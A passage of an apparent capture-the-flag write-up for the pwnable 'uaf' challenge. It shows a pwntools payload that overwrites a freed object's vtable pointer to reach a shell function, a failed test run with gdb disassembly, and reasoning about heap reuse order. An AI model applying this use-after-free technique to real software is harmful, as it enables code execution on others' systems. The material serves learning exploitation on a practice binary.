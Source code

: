So what do we want to write?
 We know that 0x614ee0 points to 0x401570 which points to 0x40117a, which is our shell function, and we know we add 8 to rax during the function call, so we can subtract 8 from 0x614ee0 to result a call to the shell function.
 ```python
 from pwn import *

payload = p64(0x401570 - 8) 
file = open("./payload","wb")
file.write(payload)
```
Testing the payload:
```bash
~/pwnable/UAF$ ./uaf 8 ./payload 
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
Segmentation fault (core dumped)
```
We get segfault, why is that? Lets take a look with gdb
```
0x400fc3 <main+255>    cmp    eax, 1
   0x400fc6 <main+258>    je     main+265                      <main+265>
    ↓
   0x400fcd <main+265>    mov    rax, qword ptr [rbp - 0x38]
 ► 0x400fd1 <main+269>    mov    rax, qword ptr [rax]
   0x400fd4 <main+272>    add    rax, 8
   0x400fd8 <main+276>    mov    rdx, qword ptr [rax]
   0x400fdb <main+279>    mov    rax, qword ptr [rbp - 0x38]
   0x400fdf <main+283>    mov    rdi, rax
   0x400fe2 <main+286>    call   rdx
 
   0x400fe4 <main+288>    mov    rax, qword ptr [rbp - 0x30]
   0x400fe8 <main+292>    mov    rax, qword ptr [rax]
   
 RAX  0x614ee0 ◂— 0x0
 RBX  0x614f30 —▸ 0x401568 —▸ 0x4015d0 —▸ 0x602390 —▸ 0x7ffff7e77190
```
We can see that our payload got into RBX, and not RAX.
Lets take a look at the code again
```cpp
case 1:
				m->introduce();
				w->introduce();
				break;
.
.
.
case 3:
				delete m;
				delete w;
				break;
```
We see the order these classes get instanciated and freed, and we know malloc will allocate by FIFO, that means our payload will get allocated into w first, becasue it's last to be freed.